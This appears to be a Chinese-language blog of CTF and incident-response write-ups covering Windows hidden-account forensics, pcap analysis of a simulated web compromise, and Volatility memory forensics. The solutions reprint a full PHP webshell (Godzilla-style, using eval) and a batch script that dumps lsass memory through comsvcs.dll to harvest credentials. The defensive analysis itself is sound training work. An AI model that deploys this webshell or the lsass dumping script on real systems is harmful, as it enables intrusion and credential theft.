<!-- generated-by: obsidian_git_blog_pipeline -->

## B02-奇怪的加密器
```plain
糟糕！一个客户的服务器的一个文件被加密了，为了防止感染，我将其放入了回收站，请你快点恢复我的flag生成器！这非常重要！！！服务器密码是：qsnctf
```

## 应急大师
### 任务1
```plain
请提交隐藏用户的名称？
```


何意味，直接显示出来了



正常需要到本地用户和组里查看，名字最后有$的是windows里的隐藏用户

```plain
solar$
```

### 任务2
```plain
请提交黑客的IP地址？
```



桌面上是phpstudy_pro，那应该就是apache或者nginx的服务，查看对应日志



apache的日志是空的，能再nginx的access.log里找到访问ip

里面总共就3个ip 127.0.0.1是回环地址，192.168.186.1是本地网关，192.168.186.139感觉是跳板机

但这道题感觉就是测试本地靶机的流程，所以答案就是这个ip

```plain
192.168.186.139
```

### 任务3
```plain
请提交黑客的一句话木马密码？
```

接下来查看文件目录



这里看到.htaccess直接想到文件上传，而且还有uploads目录



打开php文件发现一句话木马

```plain
solar2025
```

### 任务4
```plain
请提交黑客创建隐藏用户的TargetSid（目标账户安全ID）？
```

win11以下可以直接在cmd用wmic命令查看用户的TargetSid

```plain
wmic useraccount where name="solar$" get name,sid
```



```plain
S-1-5-21-3845547894-970975367-1760185533-1000
```

### 任务5
```plain
请提交黑客创建隐藏账户的时间（格式为 年/月/日 时:分:秒）？
```

在windows日志的安全日志里查找任务类别为 **用户账户管理 **的日志

找到创建solar$用户账户的日志





找到用户创建时间

```plain
2025/7/23 17:05:45
```

### 任务6
```plain
黑客将这个隐藏用户先后加入了哪几个用户组？提交格式为 第一个用户组-第二个用户组，如student-teacher
```

接上题，沿时间线继续寻找任务类别为 **安全组管理 **的日志



找到后发现是先Users后Administrators





```plain
Users-Administrators
```

### 任务7
```plain
黑客通过远程桌面成功登陆系统管理员账号的网络地址及端口号？提交格式为 IP:PORT 如 127.0.0.1:41110
```

依然是通过安全日志里找到

根据5题的时间2025/7/23 17:05:45，继续往后找登录日志

可以直接筛选 **事件ID==4624**



我们这里不仅需要筛选4624的登录事件，还需要找到xml标签LogonType==10的事件

LogonType==10的登录事件是 远程桌面登录的类型

切换到“XML” 标签，在现有 XML 内容的 `<QueryList>` 内添加筛选条件  

```plain
<QueryList>
  <Query Id="0" Path="Security">
    <Select Path="Security">
      *[System[EventID=4624]] and *[EventData[Data[@Name='LogonType']='10']]
    </Select>
  </Query>
</QueryList>
```





直接筛选出一条记录

找到连接ip和端口



```plain
192.168.186.139:49197
```

## 公交车系统攻击事件排查
```plain
思而听公交系统被黑客攻击，黑客通过web进行了攻击并获取了数据，然后获取了其中一位驾校师傅在FTP服务中的私密文件，其后黑客找到了任意文件上传漏洞进行了GETshell，控制了主机权限并植入了挖矿网页挖矿病毒，接下来你需要逐步排查。
注意：
流量中的21端口对应2121、80端口对应8090。
root的SSH密码为bussec123，第二个地址是SSH地址。
请勿在此提交FLAG，请前往具体任务提交，如【任务1】公交车系统攻击事件排查 提交。
```

### 任务1
```plain
分析环境内的中间件日志，找到第一个漏洞(黑客获取数据的漏洞)，然后通过分析日志、流量，通过脚本解出黑客获取的用户密码数据，提交获取的前两个用户名，提交格式：flag{zhangsan-wangli}
```

ssh连接后在根目录下发现result1.pcap，里面是服务器流量



query是注入点，http流84以及之前的都是在测试sql注入方法

最终进行了时间盲注



这里查看日志发现 在攻击过程中会对数据按条按位进行猜测（此过程中条件使用大于），在找到正确的信息后会使用不等于条件进行验证，因此直接在 `username` 对应字段搜索 `!=` 即可很快找到前两个用户名

```plain
a = [115, 117, 110, 121, 117, 101]
b = [99, 104, 101, 110, 104, 97, 111]
```

转换出来分别是 `sunyue` 与 `chenhao`

```plain
flag{sunyue_chenhao}
```

说实话自己写脚本不如ai

### 任务2
```plain
黑客通过获取的用户名密码，利用密码复用技术，爆破了FTP服务，分析流量以后找到开放的FTP端口，并找到黑客登录成功后获取的私密文件，提交其文件中内容，提交格式：flag{xxx}
```

ftp基于tcp传输，可以直接根据端口筛选

注意端口不是21，题目说了端口是2121



追踪tcp流发现在进行爆破

这里爆破了好久，直接往下翻，看到不一样的ip再查看之前的tcp流



最终在7067的tcp流中发现登陆成功的账密

```plain
USER zhangwei
PASS zhangwei123
```

呃呃，但这个和题目没关系

不过爆破完后就是获取私密文件的tcp流了



找到获取的私密文件



在后一个流中查看到文件内容

```plain
flag{INTERNAL_FTP_ADMIN_PASSWORD=FtpP@ssw0rd_For_Admin_Backup_2025}
```

### 任务3
```plain
可恶的黑客找到了任意文件上传点，你需要分析日志和流量以及web开放的程序找到黑客上传的文件，提交木马使用的密码，提交格式：flag{password}
```

上传木马发生在sql注入之后



通过访问web页面得知lost_and_found.php存在文件上传漏洞

那就找POST请求这个页面的流量



找到webshell，密码pass=woaiwojia

```plain
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$pass='woaiwojia';
$payloadName='payload';
$key='3c6e0b8a9c15224a';
if (isset($_POST[$pass])){
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
		eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

```plain
flag{woaiwojia}
```

### 任务4
```plain
分析流量，黑客植入了一个web挖矿木马，这个木马现实情况下会在用户访问后消耗用户的资源进行挖矿(本环境已做无害化处理)，提交黑客上传这个文件时的初始名称，提交格式：flag{xxx.xxx}
```

接上题，观察webshell，其主要分为两部分

第一部分是** 对data进行base64解密 **然后 **用key进行自设的encodeXOR解码**

第二部分是 **eval执行了payload**

事实上这个就是哥斯拉3.x-4.x的流量，可以直接用蓝方工具箱解




重点是data的内容，当对 woaiwojia 之后的内容进行解密后，会发现解出来的内容开头是：

+ `1f 8b 08` —— 这是 **GZIP 压缩**的文件头

也可以大概推断出在`eval($payload)`里执行了`$data`的解压

```plain
import base64, gzip, io
from urllib.parse import unquote_plus

KEY = b"3c6e0b8a9c15224a"

def xor_decode(data: bytes, key: bytes = KEY) -> bytes:
    out = bytearray(data)
    for i, b in enumerate(out):
        out[i] = b ^ key[((i + 1) & 15)]
    return bytes(out)

def decode_post_value(v: str) -> bytes:
    # 1) URL 解码（处理 %2F %3D 和 +）
    v = unquote_plus(v.strip())
    # 2) base64 解码
    raw = base64.b64decode(v)
    # 3) XOR 解密
    dec = xor_decode(raw, KEY)
    # 4) 如果是 gzip 再解压
    if dec.startswith(b"\x1f\x8b\x08"):
        return gzip.decompress(dec)
    return dec

if __name__ == "__main__":
    s = input().strip()
    plain = decode_post_value(s)
    print(plain.decode("utf-8", errors="replace"))

```



在7102流中找到上传的webshell的原始文件名



可以看到上传到了index.php，内容是js前端代码，所以利用的是用户资源，然后原始文件名那个是最上方的`map.php`，下题便是解析这段js代码



```plain
flag{map.php}
```

### 任务5
```plain
分析流量并上机排查，黑客植入的网页挖矿木马所使用的矿池地址是什么，提交矿池地址(排查完毕后可以尝试删除它)提交格式：flag{xxxxxxx.xxxx.xxx:xxxx}
```

由上题中指出“在用户访问后消耗用户的资源进行挖矿”，可以推断木马代码在前端

网页服务器前端目录位于 `/var/www/html/public`，审计代码中发现 `index.php` 有多余的脚本



将其格式化后可以发现其中有一个整数数组，怀疑对应的是字符 ASCII 码





转化后得到矿池地址`gulf.moneroocean.stream:10128`

```plain
flag{gulf.moneroocean.stream:10128}
```

## VOL_EASY
```plain
某企业服务器近日遭受隐秘入侵。安全团队通过日志溯源发现，黑客利用Web应用漏洞植入恶意后门，根据溯源的信息配合警方逮捕了黑客，安全团队已经紧急保存了黑客电脑的内存转储文件，请你开始取证以便固定证据。请根据题目文件，找出下面10条证据让罪犯服软吧！

附件下载地址：
通过网盘分享的文件：vol_easy.zip
链接: https://pan.baidu.com/s/1afek1JIX8J0tXoPwTSp84g?pwd=w6iu 提取码: w6iu

解压密码：0f6941beab90bc8be5bc25b6c56ee849

注意：
请勿在此提交FLAG，请前往具体任务提交，如【任务1】VOL_EASY 提交。
```

### 任务1
```plain
黑客上传的一句话木马密码是多少？
```

内存取证，上lovelymem和vol2

filescan里检索.php找到ezshell.php.txt



这里给的offset地址是10进制的

用命令的话是16进制的

```plain
volatility_2.6_win64_standalone -f E:\vol_easy\vol_easy.vmem --profile=Win7SP1x64 filescan | findstr /i ezshell
```



dump提取出来

```plain
volatility_2.6_win64_standalone -f E:\vol_easy\vol_easy.vmem --profile=Win7SP1x64 dumpfiles -Q 0x000000007ddf2280 -D dump
```



用notepad++查看发现一句话木马



```plain
solar
```

### 任务2
```plain
黑客使用的木马连接工具叫什么（比如xx.exe）？(仅首字母大写)
```



看到蚁剑还说啥呢，直接试试呗

```plain
Antsword.exe
```

### 任务3
```plain
黑客使用的木马连接工具的位置在哪里（比如C:\xxxx\xx.exe） ？   
```

接上题



```plain
C:\Tools\AntSword-Loader-v4.0.3-win32-x64\AntSword.exe
```

### 任务4
```plain
黑客获取到的FLAG是什么？
```

filescan检索flag在左面上找到flag.txt



用命令导出，可以看到不止一个flag.txt，导出后发现桌面上的那个有flag

```plain
volatility_2.6_win64_standalone -f E:\vol_easy\vol_easy.vmem --profile=Win7SP1x64 dumpfiles -Q 0x000000007da684a0 -D dump
```





```plain
flag{ok!get_webshell_is_good_idea~}
```

### 任务5
```plain
黑客入侵的网站地址是多少（只需要http://xxxxx/）？
```

核心是查看浏览器记录

看进程或者直接从filescan里找都行

进程里能找到ie浏览器





然后filescan定位



历史记录在active文件夹下

导出后用010查看



访问了奇怪的php，应该是前面ezshell.php上传后的版本

```plain
http://192.168.186.140/
```

这道题我看别人wp可以直接用lovelymem查看ie浏览器历史记录，不知道怎么弄，我只看到google和edge，可能需要插件

### 任务6
```plain
黑客入侵时，使用的系统用户名是什么？
```

直接试出来是Administrator

```plain
Administrator
```

### 任务7
```plain
黑客创建隐藏账户的密码是多少？
```

这个要找到蚁剑的记录

直接导出蚁剑进程，然后用小工具里的字符串搜索查看


一般来说创建隐藏用户的命令需要`net user`



对其进行检索，找到详细命令


因此密码为`solar2025`

```plain
solar2025
```

### 任务8
```plain
黑客首次操作靶机的关键程序是什么？
```

接上题，可以看到在执行net user前还运行了dump_lass.bat脚本，filescan找到该文件



导出后010查看

```plain
@echo off
echo [*] 正在获取 lsass.exe PID...

for /f "tokens=2 delims=," %%a in ('tasklist /FI "IMAGENAME eq lsass.exe" /FO CSV /NH') do (
    set PID=%%~a
)

if "%PID%"=="" (
    echo [!] 未找到 lsass.exe 进程，或没有权限。
    pause
    exit /b 1
)

echo [*] PID: %PID%
echo [*] 正在尝试导出内存转储...

set OUTPUT=%~dp0lsass.dmp

rundll32.exe comsvcs.dll, MiniDump %PID% %OUTPUT% full

if exist "%OUTPUT%" (
    echo [✓] 成功导出 lsass 内存为: %OUTPUT%
) else (
    echo [!] 导出失败，可能权限不足。
)

pause
```

可以发现重要程序`lsass.exe`

```plain
lsass.exe
```

### 任务9
```plain
该关键程序的PID是多少？
```

这个`dump_lass.exe`是蚁剑在远程服务器上执行的，因此`lsass.exe`也是在服务器上执行的

虽然我们拿不到服务器信息，但可以通过蚁剑内存找到pid

导出内存后用小工具或者010检索`lsass.exe`



PID和存储路径都出来了

```plain
456
```

### 任务10
```plain
该关键程序的内存文件保存到了什么地方？
```

见上题

```plain
C:\phpstudy_pro\WWW\lsass.dmp
```

